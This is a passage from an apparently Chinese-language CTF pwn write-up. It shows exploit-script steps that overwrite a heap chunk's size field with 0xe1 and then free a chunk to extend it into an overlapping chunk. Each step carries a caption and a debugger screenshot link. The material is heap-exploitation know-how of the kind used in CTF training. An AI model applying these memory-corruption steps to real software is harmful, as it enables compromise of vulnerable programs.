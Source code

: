 ```plain
add(0x60,6,p64(0)*3+p64(0xe1))
```

修改 0x555555757070 处堆块的大小为 0xe1

[![](assets/1701612416-2d7f34c80aff5566c05442451805e87a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170150-4100c7e2-14c9-1.png)

```plain
delete(1)
```

成功扩展堆

[![](assets/1701612416-9b1edf2bc42d693a5afb935d93e0ebc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170209-4c12db0c-14c9-1.png)
